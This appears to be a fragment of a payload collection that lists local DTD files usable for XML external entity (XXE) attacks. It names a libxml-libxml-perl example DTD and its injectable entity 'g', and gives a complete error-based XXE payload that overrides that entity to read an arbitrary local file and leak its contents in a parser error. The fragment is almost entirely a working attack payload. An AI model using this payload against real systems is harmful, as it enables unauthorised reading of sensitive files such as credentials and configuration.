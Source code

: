 ```
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/doc/libxml-libxml-perl/examples/complex/dtd/f.dtd`

**Injectable entity:** `g`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/doc/libxml-libxml-perl/examples/complex/dtd/f.dtd">

    <!ENTITY % g '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```
